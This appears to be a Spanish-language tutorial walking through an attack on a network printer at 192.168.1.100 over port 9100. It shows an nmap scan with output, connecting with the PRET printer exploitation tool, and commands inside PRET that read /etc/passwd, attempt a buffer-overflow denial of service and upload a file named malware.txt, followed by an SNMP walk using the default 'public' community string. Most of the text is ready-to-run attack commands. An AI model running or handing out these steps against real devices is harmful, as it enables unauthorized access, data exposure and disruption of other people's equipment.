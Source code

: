 Estás en una red interna y encuentras una impresora en la IP `192.168.1.100`. El puerto 9100 está abierto.

---

#### 🔎 Paso 1: Detectar la impresora con Nmap

```bash
nmap -p 9100,80,443,161,515 192.168.1.100
```

Salida esperada:

```
PORT     STATE SERVICE
80/tcp   open  http
161/udp  open  snmp
9100/tcp open  jetdirect
```

---

#### 🧰 Paso 2: Conectar con PRET

```bash
cd PRET
python3 pret.py 192.168.1.100 -p 9100
```

Esto te da acceso a una **interfaz interactiva**, tipo shell, para enviar comandos a la impresora.

---

#### 🕵️ Paso 3: Comandos útiles en PRET

Una vez dentro del shell de PRET, puedes:

```bash
list                     # Listar archivos en la impresora
cat /etc/passwd          # Ver si es un sistema Unix embebido
print test.txt           # Imprimir un archivo
exploit buffer-overflow  # Intentar un DoS
upload malware.txt       # Subir archivos (si lo permite)
```

---

#### 📚 Paso 4: Extraer información por SNMP (opcional)

```bash
snmpwalk -v 2c -c public 192.168.1.100
```

Esto devuelve información como:

- Nombre de la impresora
- Modelo, fabricante
- Contadores de páginas
- Archivos en buffer

---